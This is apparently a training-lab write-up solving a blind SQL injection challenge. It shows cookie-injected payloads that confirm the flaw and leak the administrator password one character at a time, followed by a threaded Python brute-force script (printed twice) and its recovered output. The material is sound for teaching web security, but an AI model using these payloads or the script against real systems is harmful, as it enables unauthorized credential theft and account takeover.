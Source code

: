 # Lab: Blind SQL injection with conditional responses
## Task
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solution
As this application uses the `TrackingId` cookie to track users and that cookie relates to the SQL database. Therefore, we can exploit this to retrieve the `administrator` user's password.  
First, we need to make sure that it is indeed vulnerable by injecting:  
```
' AND 1=1--
```  

![image](https://user-images.githubusercontent.com/44528004/130160864-87927571-3ac9-4322-aed2-a78b50fdf6e2.png)  

As the result, it is vulnerable because the response contains the `Welcome back!` string.  

Next, we find the length of the password:  
```
' AND LENGTH((SELECT password FROM users WHERE username='administrator'))=20--
```  

![image](https://user-images.githubusercontent.com/44528004/130160917-2559f3dd-6a7a-43ba-b82c-ce2b017c034f.png)  

Now, we know that the password is 20-character long.  

Then, we start to discover each letter of password:  
```
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a'--
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='b'--
...
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),2,1)='a'--
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),2,1)='b'--
...
```

Script:  
```python
import requests
import re
import string
from concurrent import futures
from concurrent.futures import ThreadPoolExecutor

URL = 'https://ac161faf1f29b01d80c9fcdb00be0028.web-security-academy.net/filter?category=Pets'
alphas = list(string.ascii_lowercase)
alphas.extend(list(string.ascii_uppercase))
alphas.extend(list(string.digits))

def brute(i):
    for j in alphas:
        COOKIES =  {'TrackingId':f"B3cN9MgnWyqEImur'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)='{j}'--",
        'session':'0WJRV2KyH9TczDNShSpbiuxIimbJjtkv'}
        resp = requests.get(URL, cookies=COOKIES)
        if re.search('Welcome back!', resp.text):
            return (i, j)

res = []
with ThreadPoolExecutor(max_workers=10) as executor:
    tasks = []
    for i in range(1, 21):
        tasks.append(executor.submit(brute, i))
    for f in futures.as_completed(tasks):
        res.append(f.result())

res = sorted(res, key=lambda x: x[0])
print(''.join([x[1] for x in res]))
import requests
import re
import string
from concurrent import futures
from concurrent.futures import ThreadPoolExecutor

URL = 'https://ac161faf1f29b01d80c9fcdb00be0028.web-security-academy.net/filter?category=Pets'
alphas = list(string.ascii_lowercase)
alphas.extend(list(string.ascii_uppercase))
alphas.extend(list(string.digits))

def brute(i):
    for j in alphas:
        COOKIES =  {'TrackingId':f"B3cN9MgnWyqEImur'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)='{j}'--",
        'session':'0WJRV2KyH9TczDNShSpbiuxIimbJjtkv'}
        resp = requests.get(URL, cookies=COOKIES)
        if re.search('Welcome back!', resp.text):
            return (i, j)

res = []
with ThreadPoolExecutor(max_workers=10) as executor:
    tasks = []
    for i in range(1, 21):
        tasks.append(executor.submit(brute, i))
    for f in futures.as_completed(tasks):
        res.append(f.result())

res = sorted(res, key=lambda x: x[0])
print(''.join([x[1] for x in res]))
```

```
(env) PS E:\CTF> py .\intruder.py
pfp9jezkril5vmp86w69
```

Login:  

![image](https://user-images.githubusercontent.com/44528004/130164204-0a1a2478-35e9-42f1-836f-6717d8ee1199.png)  
> Solved!
